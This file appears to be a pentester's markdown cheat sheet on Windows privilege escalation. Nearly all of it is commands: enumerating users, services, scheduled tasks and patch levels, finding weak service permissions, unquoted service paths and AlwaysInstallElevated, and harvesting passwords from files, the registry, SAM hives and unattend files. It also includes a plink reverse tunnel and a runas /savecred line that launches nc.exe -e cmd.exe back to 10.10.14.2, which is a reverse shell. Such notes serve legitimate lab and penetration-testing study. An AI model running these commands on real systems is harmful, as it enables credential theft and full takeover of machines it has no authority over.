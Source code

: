 # Windows Privilege Escalation

### patch level  
systeminfo  
wmic qfe get Caption,Description,HotFixID,InstalledOn  

whoami  
echo %USERNAME%  

net user  
net localgroup  

users in a domain  
net user /domain  

net group /domain  
net group /domain <Group Name>  

### Firewall  
netsh firewall show state  
netsh firewall show config  

### Network  
ipconfig /all  
route print  
arp -A  

### Scheduled Tasks  
schtasks /query /fo LIST /v  
--copy output and save in txt  
cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM  

dir %SystemRoot%\Tasks  

e.g. c:\windows\tasks\  
e.g. c:\windows\system32\tasks\  

### Weak Service Permissions  
Check service config can be modify or not  

accesschk.exe /accepteula  
accesschk.exe -uwcqv "Authenticated Users" * /accepteula  
accesschk.exe -ucqv <Service Name>  

sc qc <Service Name> -- Get service details  

Check service with weak file permission  
User c:\windows\temp\  

wmic.exe  
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"  

sc.exe  
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt  
FOR /F %i in (Servicenames.txt) DO echo %i  
type Servicenames.txt  
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt  
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt  

### Unquoted Service Path  
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """  

sc query  
sc qc service name  

### AlwaysInstallElevated << IF 64 bits use:  %SystemRoot%\Sysnative\reg.exe  
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  

### Service only available from inside  
netstat -ano  
upload plink.exe  

plink.exe -R "remote port":127.0.0.1:"local port"  root@"ipaddress"

### Pasword in files  
https://pentestlab.blog/tag/privilege-escalation/page/3/  
cmdkey /list        << If there are entries, it means that we may able to runas certain user who stored his cred in windows  
runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \\IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"  

Can we find any SAM files?  
%SYSTEMROOT%\repair\SAM  
%SYSTEMROOT%\System32\config\RegBack\SAM  
%SYSTEMROOT%\System32\config\SAM  
%SYSTEMROOT%\repair\system  
%SYSTEMROOT%\System32\config\SYSTEM  
%SYSTEMROOT%\System32\config\RegBack\system  

findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
findstr /si pass/pwd *.ini  

dir /s *pass* == *cred* == *vnc* == *.config*  

in all files  
findstr /spin "password" *.*  
findstr /spin "password" *.*  

Unattended? vnc?  
c:\sysprep.inf  
c:\sysprep\sysprep.xml  
c:\unattend.xml  
%WINDIR%\Panther\Unattend\Unattended.xml  
%WINDIR%\Panther\Unattended.xml  

dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s *pass*  

dir c:\*vnc.ini /s /b  
dir c:\*ultravnc.ini /s /b   
dir c:\ /s /b | findstr /si *vnc.ini  

### VNC  
reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"  

### Windows autologin  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  

### SNMP Paramters  
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"  

### Putty  
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  

### Search for password in registry  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s  







